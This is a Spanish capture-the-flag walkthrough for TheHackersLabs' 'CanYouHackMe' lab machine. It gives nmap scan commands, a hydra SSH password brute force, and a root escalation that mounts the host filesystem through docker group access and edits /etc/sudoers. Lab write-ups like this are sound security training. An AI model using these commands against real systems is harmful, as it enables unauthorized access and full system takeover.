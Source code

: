 # CANYOUHACKME - THE HACKERS LABAS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [TheHackersLabs](https://thehackerslabs.com/). 

Para descargarla vas a [CanYouHackMe](https://thehackerslabs.com/canyouhackme/) y le das a descargar. Luego importas el .ova para crear la máquina virtual y la arrancas.

### descripción

- Dificultad: principiante
- Sistema Operativo: linux
- Autor: Enaitz

## ESQUEMA

![canyouhackme](https://github.com/user-attachments/assets/7317565f-ae11-46a9-a8cd-a066d9f6d0c0)

## RECONOCIMIENTO DE RED

### conectividad y SO

Primero comprobamos la conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/a9d8cbd5-fe9e-439d-995a-51d7fa81ca9b)

Nos llega respuesta, y como el TTL es 64, el sistema operativo muy posiblemente sea Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/8d69c473-aca4-473d-9fe1-61a9c0a1ca0a)

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

Ahora sobre estos dos puertos hacemos otro escaneo de versiones y servicios con nmap:

```python
nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

> `-p22,80` hacer el escaneo solo sobre estos dos puertos

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/8d793561-8c5b-4f18-9a5f-b58a34b6ebee)

## RECONOCIMIENTO WEB

Al cargar el servicio web vemos que no lo resuelve:

![image](https://github.com/user-attachments/assets/2e506392-a43b-4735-82ba-f52266e38827)

Vemos que se nos redirecciona al dominio canyouhackme.thl, así que añadimos la línea `<ip> canyouhackme.thl` al `/etc/hosts` para que podamos resolver el dominio. Después de hacer esto volvemos a cargar la web:

![image](https://github.com/user-attachments/assets/251637ca-be7a-4e39-a9e4-ed89f1bb1157)

No vemos nada útil. Si inspeccionamos el códgio HTML veremos algo muy interesante:

![image](https://github.com/user-attachments/assets/78c617d6-42e1-4cbd-b038-0f30c6966760)

## INTRUSIÓN

Puede que exista un usuario en la máquina llamado juan. Como la máquina tiene el puerto 22 abierto, hacemos fuerza bruta de contraseñas con `hydra`:

```python
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.42
```

![image](https://github.com/user-attachments/assets/298b5d66-ec6a-46a5-bdfd-f74d2acccab0)

Vemos que encuentra una contraseña. Ahora nos conectamos por SSH haciendo `ssh juan@192.168.1.42` y de contraseña "matrix".

## ESCALADA DE PRIVILEGIOS

#### root

Siendo el usuario juan, si hacemos `id`:

![image](https://github.com/user-attachments/assets/82e760e9-7d64-4caa-9c4e-6d9d0d6be997)

Vemos que estamos en el grupo docker. Esto es crítico ya que podemos crear contenedores. Se podría crear un contenedor que monte la raíz del sistema dentro del contenedor, y dentro del contenedor ser root y modificar lo que queramos de la raíz del sistema y los cambios se aplicarían a toda la partición.

Para hacer esto primero descargamos una imagen de ubuntu, por ejemplo:

```python
docker pull ubuntu:latest
```

Después creamos un contenedor con ubuntu que monte la raíz del sistema en `/mnt/root`, por ejemplo:

```python
docker run -dit -v /:/mnt/root --name pwned ubuntu:latest
```

Y después ejecutamos una bash como root dentro del contenedor:

```python
docker exec -it pwned bash
```

Una vez dentro, podemos editar el archivo `/mnt/root/etc/sudoers` y añadir esta línea:

```python
juan    ALL=(ALL:ALL) ALL
```

De esta forma podremos ejecutar comandos como el usuario que queramos siendo juan. Hay un problema y es que nano no está instalado, pero como dentro del contendor somos root simplemente ejecutamos `apt update` y `apt install nano -y`. Una vez instalado, añadimos esa línea al archivo `/mnt/root/etc/sudoers`, guardamos y salimos del contenedor.

Ahora si hacemos `sudo -l` vemos que se han aplicado los cambios:

![image](https://github.com/user-attachments/assets/a146c996-172b-4e33-adce-4b2ac39e3b97)

Así que hacemos `sudo bash` y ganamos una bash como root:

![image](https://github.com/user-attachments/assets/92fc9ea3-7e6d-4f7e-9384-7ca39443267b)